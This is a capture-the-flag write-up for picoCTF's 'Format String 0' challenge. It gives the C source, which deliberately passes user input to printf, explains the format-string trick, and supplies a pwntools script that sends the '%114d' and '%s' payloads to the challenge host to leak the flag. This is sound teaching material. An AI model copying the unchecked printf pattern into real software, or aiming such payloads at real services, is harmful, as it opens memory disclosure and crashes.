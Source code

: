 # Format String 0

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 32
#define FLAGSIZE 64

char flag[FLAGSIZE];

void sigsegv_handler(int sig) {
    printf("\n%s\n", flag);
    fflush(stdout);
    exit(1);
}

int on_menu(char *burger, char *menu[], int count) {
    for (int i = 0; i < count; i++) {
        if (strcmp(burger, menu[i]) == 0)
            return 1;
    }
    return 0;
}

void serve_patrick();

void serve_bob();


int main(int argc, char **argv){
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL) {
        printf("%s %s", "Please create 'flag.txt' in this directory with your",
                        "own debugging flag.\n");
        exit(0);
    }

    fgets(flag, FLAGSIZE, f);
    signal(SIGSEGV, sigsegv_handler);

    gid_t gid = getegid();
    setresgid(gid, gid, gid);

    serve_patrick();
  
    return 0;
}

void serve_patrick() {
    printf("%s %s\n%s\n%s %s\n%s",
            "Welcome to our newly-opened burger place Pico 'n Patty!",
            "Can you help the picky customers find their favorite burger?",
            "Here comes the first customer Patrick who wants a giant bite.",
            "Please choose from the following burgers:",
            "Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe",
            "Enter your recommendation: ");
    fflush(stdout);

    char choice1[BUFSIZE];
    scanf("%s", choice1);
    char *menu1[3] = {"Breakf@st_Burger", "Gr%114d_Cheese", "Bac0n_D3luxe"};
    if (!on_menu(choice1, menu1, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        int count = printf(choice1);
        if (count > 2 * BUFSIZE) {
            serve_bob();
        } else {
            printf("%s\n%s\n",
                    "Patrick is still hungry!",
                    "Try to serve him something of larger size!");
            fflush(stdout);
        }
    }
}

void serve_bob() {
    printf("\n%s %s\n%s %s\n%s %s\n%s",
            "Good job! Patrick is happy!",
            "Now can you serve the second customer?",
            "Sponge Bob wants something outrageous that would break the shop",
            "(better be served quick before the shop owner kicks you out!)",
            "Please choose from the following burgers:",
            "Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak",
            "Enter your recommendation: ");
    fflush(stdout);

    char choice2[BUFSIZE];
    scanf("%s", choice2);
    char *menu2[3] = {"Pe%to_Portobello", "$outhwest_Burger", "Cla%sic_Che%s%steak"};
    if (!on_menu(choice2, menu2, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        printf(choice2);
        fflush(stdout);
    }
}
```

The first function called inside the main is `serve_patrick()`. This function gives us a menu. Then, we can go on with the program if we give the program a choice that is bigger than `2 * BUFSIZE`. `BUFSIZE = 32`, so we need to give it a string with a length greater than 64.
- `Breakf@st_Burger` has 16 characters
- `Bac0n_D3luxe` has 13 characters
- `Gr%114d_Cheese` has 13 characters, but when `printf` encounters `%114d`, it expects to print a number with a width of 114 characters. No number is provided, but those characters will be printed anyway.
This means that inserting that choice will get us to `serve_Bob()`.
In this function, the principle is the same:
- `Cla%sic_Che%s%steak`: when `printf` processes `%s` without a string argument, it accesses arbitrary memory (in our case, the flag).

This process can be done automatically with a python script:
```python
from pwn import *

# Connection details
hostname = "mimas.picoctf.net"  
port = 53679
p = remote(hostname, port)


# Step 1: Receive initial prompt
p.recvuntil(b"Enter your recommendation:")  # Adjust the expected prompt as needed

# Step 2: Send crafted payload
payload = b"Gr%114d_Cheese"  # Example payload, adjust based on the challenge requirements
p.sendline(payload)

# Step 3: Receive output: serve Bob
p.recvuntil(b"Enter your recommendation:") 

# Step 4: Send another crafted payload
payload = b"Cla%sic_Che%s%steak"  # Example payload, adjust based on the challenge requirements
p.sendline(payload)

# Receive output (and flag)
print(p.recvall().decode())

```